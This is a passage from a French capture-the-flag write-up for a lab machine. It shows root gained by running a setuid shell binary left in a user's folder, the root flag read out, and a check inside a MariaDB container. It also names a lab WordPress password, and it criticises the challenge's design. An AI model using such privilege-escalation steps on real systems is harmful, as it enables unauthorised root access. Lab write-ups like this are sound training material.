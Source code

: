 ```console
gandalf@looz:~$ id alatar
uid=1000(alatar) gid=1000(alatar) groups=1000(alatar),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)
```

Ce dernier a un binaire setuid dans son dossier personnel :

```
   286419     20 -rwsr-xr-x   1 root     root          16848 Jun  7  2021 /home/alatar/Private/shell_testv1.0
```

Il suffisait alors de la lancer.

```console
gandalf@looz:/home/alatar/Private$ ./shell_testv1.0 
root@looz:/home/alatar/Private# id
uid=0(root) gid=0(root) groups=0(root),1001(gandalf)
root@looz:/home/alatar/Private# cd /root
root@looz:/root# ls
root.txt  rundocker.sh  snap
root@looz:/root# cat root.txt
ab17850978e36aaf6a2b8808f1ded971
```

Au final, je trouve stupide que l'auteur du CTF n'ai pas utilisé le mot de passe `loveme2` du wordpress pour le compte Unix, ça aurait rendu le CTF bien plus logique.

Au mieux, il aurait dû ne pas ajouter plein de comptes inutiles qui donnent trop de cheminements possibles.

Quant à la piste des containers elle ne menait nulle part. Par exemple sur le container mysql le processus ne tournait effectivement pas en root :

```console
root@looz:~# docker ps
CONTAINER ID   IMAGE       COMMAND                  CREATED         STATUS        PORTS                                       NAMES
a5610f5f2480   wordpress   "docker-entrypoint.s…"   23 months ago   Up 16 hours   0.0.0.0:8081->80/tcp, :::8081->80/tcp       wpcontainer
a9400b1a26c0   mariadb     "docker-entrypoint.s…"   23 months ago   Up 16 hours   0.0.0.0:3306->3306/tcp, :::3306->3306/tcp   wordpressdb
root@looz:~# docker exec -it a9400b1a26c0 /bin/bash
root@a9400b1a26c0:/# ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
mysql          1  0.3  7.9 1087896 79848 pts/0   Ssl+ May08   3:49 mysqld
root        1402  1.5  0.3   4240  3240 pts/1    Ss   12:43   0:00 /bin/bash
root        1410  0.0  0.2   5896  2764 pts/1    R+   12:43   0:00 ps aux
```

Les deux images utilisées semblent complètement stock.

